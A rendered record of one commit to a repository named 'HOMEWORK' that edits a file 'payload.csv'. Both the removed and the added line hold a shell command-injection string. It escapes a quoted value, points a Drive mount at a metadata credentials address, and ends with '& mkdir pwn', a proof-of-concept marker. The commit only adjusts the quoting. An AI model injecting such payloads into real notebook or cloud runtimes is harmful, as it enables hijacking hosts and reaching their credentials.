

Before and after one commit to Crazed-png/HOMEWORK, a CSV file: payload.csv, drawn as a sheet.

Commit message:
Update payload.csv

```diff
--- a/payload.csv
+++ b/payload.csv
@@ -2,2 +2,2 @@
 #1,2,3
-TBE_EPHEM_CREDS_ADDR='172.28.0.1:8009/computeMetadata/v1 --preferences=trusted_root_certs_file_path:/opt/google/drive/roots.pem,mount_point_path:/content/drive/ 2>&1 | grep --line-buffered -E \'Drive File Stream encountered a problem and has stopped|The domain policy has disabled Drive File Stream\'; echo \'drive EXITED\'; ) & mkdir pwn & #'#, 13
+TBE_EPHEM_CREDS_ADDR='""172.28.0.1:8009/computeMetadata/v1 --preferences=trusted_root_certs_file_path:/opt/google/drive/roots.pem,mount_point_path:/content/drive/ 2>&1 | grep --line-buffered -E \'Drive File Stream encountered a problem and has stopped|The domain policy has disabled Drive File Stream\'; echo \'drive EXITED\'; ) & mkdir pwn & #'#, 13
```
